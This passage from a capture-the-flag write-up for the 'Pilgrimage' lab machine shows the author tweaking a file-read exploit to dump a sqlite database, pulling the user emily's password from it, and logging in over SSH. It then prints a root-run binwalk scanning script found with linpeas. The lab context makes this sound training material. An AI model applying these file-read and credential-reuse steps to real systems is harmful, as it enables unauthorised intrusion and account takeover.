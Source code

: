 Then I remembered that I have the source code of the site available, so I decided to check it and I discovered that in the files `index.php`, `login.php` and `register.php` there is a path to a sqlite3 file.

* login.php
```php
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
```

Using the exploit I found, I downloaded this file and opened it. But be careful, to make the exploit work I had to add the `errors='ignore'` argument inside the `decode` function.

```python
# Decrypt the raw profile type from hex format
decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8', errors='ignore')
```
The errors were due to python failing to decode all the bytes correctly. Having ignored the errors, I was able to see the file but it is not formatted well, this is its contents.

```
e8|StableimagesimagesCREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL)+?indexsqlite_autoindex_images_1imagesf+tableusersusersCREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, passwxf0passwordT NULL))=indexsqlite_autoindex_users_1users
           asdasd123▒-emilyabigchonkyboi123
@i#http://pilgrimage.htb/shrunk/650ad9bb2a36c.pngnophoto.pngxf0
1i      http://pilgrimage.htb/shrunk/650ad9bb2a36c.png
```

Since I know that the user on the machine is called emily, from here I can assume that the rest of the string next to the name emily is her password.

```
$ ssh emily@pilgrimage.htb
emily@pilgrimage.htb's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 20 22:26:46 2023 from 10.10.14.77
emily@pilgrimage:~$
```
It works... after that I upload an run linpeas script on the machine and it found a file named `/usr/sbin/malwarescan.sh`

```
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
